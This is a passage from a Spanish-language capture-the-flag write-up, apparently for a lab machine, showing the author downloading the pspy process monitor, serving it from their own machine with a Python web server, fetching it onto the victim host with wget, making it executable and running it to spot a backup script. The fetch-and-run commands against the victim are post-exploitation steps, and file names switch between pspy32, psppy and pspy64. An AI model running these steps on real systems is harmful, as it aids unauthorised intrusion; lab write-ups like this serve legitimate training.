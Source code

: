 ```bash
--2022-06-30 20:47:43--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/120821432/d4b68b80-c51c-11e9-8159-312abf23fd4b?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220630%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220630T184743Z&X-Amz-Expires=300&X-Amz-Signature=787febc0717f8adb3989c68db4511b7985c5185082271a5734e696b2ef3fd358&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=120821432&response-content-disposition=attachment%3B%20filename%3Dpspy32&response-content-type=application%2Foctet-stream
Resolviendo objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.109.133, ...
Conectando con objects.githubusercontent.com (objects.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 2656352 (2,5M) [application/octet-stream]
Grabando a: «pspy32»

pspy32                                    100%[===================================================================================>]   2,53M  7,12MB/s    en 0,4s    

2022-06-30 20:47:43 (7,12 MB/s) - «pspy32» guardado [2656352/2656352]
```

Me monto en una carpeta con el archivo un servidor en python y dentro de /home/epsilon le hago un wget
```bash
#en mi pc en la carpeta que contiene pspy32
python3 -m http.server 443

# en la victima
wget http://10.10.14.9:443/psppy

# hay que darle permisos de ejecución

chmod +x pspy64

# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 

# place watchers recursively in two directories and non-recursively into a third
./pspy64 -r /path/to/first/recursive/dir -r /path/to/second/recursive/dir -d /path/to/the/non-recursive/dir

# disable printing discovered commands but enable file system events
./pspy64 -p=false -f
```

En los procesos vistos usando ./pspy64 -pf -i 1000   localizo un script de backup que tiene que hacer lo extraño que hemos visto ahora de eliminar

![](assets/2022-06-30-21-03-44.png)
